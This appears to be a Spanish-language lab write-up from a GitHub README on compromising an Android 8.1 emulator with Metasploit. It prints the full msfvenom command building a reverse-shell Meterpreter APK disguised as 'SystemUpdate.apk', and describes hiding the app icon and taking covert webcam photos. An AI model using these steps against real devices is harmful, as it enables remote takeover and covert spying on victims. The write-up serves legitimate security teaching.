






# 📱 Análisis de Seguridad en Android & Simulación de Adversarios

> ⚠️ **DISCLAIMER / AVISO LEGAL**
> Este proyecto ha sido desarrollado únicamente con fines educativos y de investigación académica. Todas las pruebas se han realizado en un entorno controlado y aislado (laboratorio virtual) propiedad del autor.
> El autor no se hace responsable del mal uso de la información aquí expuesta. El acceso no autorizado a sistemas informáticos es ilegal.

## 🛡️ Descripción del Proyecto
Este laboratorio simula un escenario de **Red Team** y **Pentesting Móvil** para analizar la evolución de la seguridad en Android. El objetivo es comparar cómo las vulnerabilidades críticas en versiones antiguas (Android 8.1) han sido mitigadas en versiones modernas (Android 12+), y demostrar el riesgo de utilizar dispositivos desactualizados.

---

## 🏗️ Fase 1: Configuración del Entorno (Lab Setup)

Para realizar las pruebas de concepto (PoC) de manera segura, se ha configurado un entorno virtualizado aislado utilizando **Android Studio**.

### 1. Creación del Dispositivo Virtual (AVD)
Se utilizó el **Device Manager** de Android Studio para definir un nuevo objetivo.

### 2. Selección de Hardware
Se eligió un perfil de **Pixel 2**. Este dispositivo es ideal para pruebas de seguridad estándar debido a su compatibilidad y especificaciones representativas de un dispositivo de gama media-alta de su época.

### 3. Selección del Sistema Operativo (Punto Crítico)
Esta es la decisión más importante del laboratorio. Se seleccionó explícitamente **Android 8.1 (Oreo) - API 27**.

* **¿Por qué API 27?**: Esta versión carece de las protecciones modernas de privacidad (como los indicadores visuales de cámara/micrófono o el bloqueo estricto de actividades en segundo plano) introducidas en Android 12 (API 31). Esto permite demostrar ataques de post-explotación con Metasploit que serían bloqueados en sistemas actuales.

### 4. Despliegue del Objetivo
El dispositivo virtual se ejecuta exitosamente, simulando un teléfono funcional conectado a la red virtual del laboratorio, listo para recibir la auditoría.

---

## ⚔️ Fase 2: Weaponization (Preparación del Ataque)

Con el entorno objetivo listo, pasamos a la máquina atacante (Kali Linux) para preparar la infraestructura.

### 1. Verificación de Red
Antes de iniciar, verificamos nuestra dirección IP local para configurar correctamente la conexión inversa (Reverse Shell).

### 2. Generación del Payload (Ingeniería Social)
Utilizamos `msfvenom` para generar el APK malicioso.
* **Comando:** `msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.31 LPORT=4444 R > SystemUpdate.apk`
* **Estrategia:** Se nombró el archivo como `SystemUpdate.apk` para engañar al usuario.

### 3. Verificación del Artefacto
Confirmamos en las propiedades del archivo que el payload se ha generado correctamente, verificando su nombre y tamaño antes de enviarlo.

## 💀 Fase 3: Explotación y Acceso (Proof of Concept)

En esta fase ejecutamos el ataque completo, pasando de la escucha pasiva a la obtención de control remoto.

### 1. Despliegue del Listener (C2)
Iniciamos el controlador en Metasploit (`multi/handler`) configurado con el mismo payload (`android/meterpreter/reverse_tcp`) y puerto que el archivo malicioso. La terminal queda a la espera de conexiones entrantes.

### 2. Ejecución y Compromiso (Demo)
El siguiente video documenta la secuencia de éxito:
1.  El usuario ejecuta la aplicación `SystemUpdate` en el dispositivo Android 8.1.
2.  El sistema no solicita permisos especiales ni bloquea la conexión de red.
3.  Obtenemos una sesión de **Meterpreter** instantánea en nuestra máquina atacante.

### Resultado Técnico
El ataque es exitoso. La sesión de Meterpreter (Session 1 opened) nos confirma que tenemos un canal de comunicación directo y persistente con el dispositivo víctima.

## 🕵️ Fase 4: Post-Explotación e Impacto

Una vez dentro del sistema, demostramos la criticidad de mantener dispositivos desactualizados.

### 1. Persistencia y Sigilo
Ejecutamos `sysinfo` para confirmar el objetivo y `hide_app_icon` para ocultarnos.
* **Resultado:** El icono de la aplicación desaparece del menú principal de la víctima, dificultando su eliminación.

### 2. Ciberespionaje (Spyware)
El atacante ejecuta el comando `webcam_snap` para tomar una fotografía remota.
* **Comando:**

* **Impacto (Resultado):**
La fotografía se captura y descarga inmediatamente. En Android 8.1 (API 27), esto ocurre sin que aparezca ningún indicador visual (punto verde) en la pantalla de la víctima, violando totalmente su privacidad sin ser detectado.

---

La ejecución de este escenario ha demostrado que la **obsolescencia del software** es una vulnerabilidad crítica en sí misma.

1.  **Impacto Crítico:** Se logró compromiso total del dispositivo (cámara, ubicación y archivos) sin necesidad de escalar privilegios (Root), utilizando únicamente los permisos estándar otorgados por el usuario.
2.  **Evasión:** Las técnicas de ofuscación básicas (como renombrar el APK) fueron suficientes para evadir la concienciación del usuario, aunque insuficientes para evadir un antivirus moderno.
3.  **Lección Aprendida:** La seguridad en capas de Android actual (Permisos Runtime, Indicadores visuales y Play Protect) es efectiva para mitigar estos ataques genéricos, haciendo indispensable mantener los dispositivos actualizados.

> **Estado:** ✅ Misión Cumplida (Rooted/Compromised).
